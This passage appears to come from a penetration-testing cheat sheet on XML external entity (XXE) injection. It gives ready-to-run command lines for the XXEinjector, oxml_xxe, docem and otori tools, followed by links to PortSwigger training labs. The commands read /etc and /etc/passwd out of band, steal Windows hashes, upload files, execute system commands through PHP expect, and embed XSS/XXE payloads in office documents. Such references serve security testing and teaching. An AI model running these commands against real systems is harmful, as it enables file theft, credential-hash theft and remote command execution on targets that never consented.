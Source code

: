   ```bash
  # Enumerating /etc directory using gopher for OOB method:
  ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt --oob=gopher
  # Second order exploitation:
  ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/vulnreq.txt --2ndfile=/tmp/2ndreq.txt
  # Bruteforcing files using HTTP out of band method and netdoc protocol:
  ruby XXEinjector.rb --host=192.168.0.2 --brute=/tmp/filenames.txt --file=/tmp/req.txt --oob=http --netdoc
  # Enumerating using direct exploitation:
  ruby XXEinjector.rb --file=/tmp/req.txt --path=/etc --direct=UNIQUEMARK
  # Enumerating unfiltered ports:
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --enumports=all
  # Stealing Windows hashes:
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --hashes
  # Uploading files using Java jar:
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --upload=/tmp/uploadfile.pdf
  # Executing system commands using PHP expect:
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --oob=http --phpfilter --expect=ls
  # Testing for XSLT injection:
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --xslt
  # Log requests only:
  ruby XXEinjector.rb --logger --oob=http --output=/tmp/out.txt
  ```
- [oxml_xxe](https://github.com/BuffaloWill/oxml_xxe) - A tool for embedding XXE/XML exploits into different filetypes (DOCX/XLSX/PPTX, ODT/ODG/ODP/ODS, SVG, XML, PDF, JPG, GIF)
  ```
  ruby server.rb
  ```
- [docem](https://github.com/whitel1st/docem) - Utility to embed XXE and XSS payloads in docx,odt,pptx,etc
  ```
  ./docem.py -s samples/xxe/sample_oxml_xxe_mod0/ -pm xss -pf payloads/xss_all.txt -pt per_document -kt -sx docx
  ./docem.py -s samples/xxe/sample_oxml_xxe_mod1.docx -pm xxe -pf payloads/xxe_special_2.txt -kt -pt per_place
  ./docem.py -s samples/xss_sample_0.odt -pm xss -pf payloads/xss_tiny.txt -pm per_place
  ./docem.py -s samples/xxe/sample_oxml_xxe_mod0/ -pm xss -pf payloads/xss_all.txt -pt per_file -kt -sx docx
  ```
- [otori](http://www.beneaththewaves.net/Software/On_The_Outside_Reaching_In.html) - Toolbox intended to allow useful exploitation of XXE vulnerabilities.
  ```
  python ./otori.py --clone --module "G-XXE-Basic" --singleuri "file:///etc/passwd" --module-options "TEMPLATEFILE" "TARGETURL" "BASE64ENCODE" "DOCTYPE" "XMLTAG" --outputbase "./output-generic-solr" --overwrite --noerrorfiles --noemptyfiles --nowhitespacefiles --noemptydirs 
  ```

## Labs

* [PortSwigger Labs for XXE](https://portswigger.net/web-security/all-labs#xml-external-entity-xxe-injection)
  * [Exploiting XXE using external entities to retrieve files](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files)
  * [Exploiting XXE to perform SSRF attacks](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf)
  * [Blind XXE with out-of-band interaction](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction)
  * [Blind XXE with out-of-band interaction via XML parameter entities](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities)
  * [Exploiting blind XXE to exfiltrate data using a malicious external DTD](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration)
  * [Exploiting blind XXE to retrieve data via error messages](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-data-retrieval-via-error-messages)